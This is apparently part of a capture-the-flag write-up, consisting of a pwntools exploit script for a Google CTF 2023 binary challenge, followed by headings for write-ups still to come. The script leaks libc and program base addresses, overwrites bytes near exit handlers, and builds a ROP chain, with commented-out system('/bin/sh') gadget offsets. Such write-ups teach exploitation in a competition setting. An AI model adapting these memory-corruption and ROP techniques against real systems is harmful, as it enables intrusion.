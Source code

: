 ```python
# pwn template ./chal --host wfw3.2023.ctfcompetition.com --port 1337
...
io = start()

io.recvuntil(b"For otherwise I will surely expire")
maps = io.recvuntil(b'\n\n')

libc_base, elf_base = parse_maps(maps)
libc.address = libc_base
exe.address = elf_base

log.info('Libc base: ' + hex(libc_base))
log.info('Elf base: ' + hex(exe.address))

# pause()
p = lambda x, y: (hex(x) + ' ' + str(y)).encode().ljust(0x40, b'\0')

__run_exit_handlers = libc.address + 0x4560b
io.send(p(__run_exit_handlers, 1))
io.send(p(__run_exit_handlers + 1, 1))
io.send(p(__run_exit_handlers + 2, 1))
io.send(p(__run_exit_handlers + 3, 2))

exit_addr = libc.address + 0x455f0
io.send(p(exit_addr, 4))
io.send(p(exit_addr+4, 2))
# 0x43 54 46 7b 43 54
#   C  T  F  {  C  T

pop_rdi = libc.address + 0x2a3e5
system_addr = libc.address + 0x50d60
bin_sh_addr = libc.address + 0x1d8698
# io.sendline(p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr))

rop = ROP(libc)

flag_location = exe.address + 0x50a0
rop.call('write', [1337, flag_location, 100])
log.info(rop.dump())
io.sendline(rop.chain())

io.interactive()
```

---

Next writeups soon...

# StoryGen

# UBF (Unnecessary Binary Format)

# Watthewasm
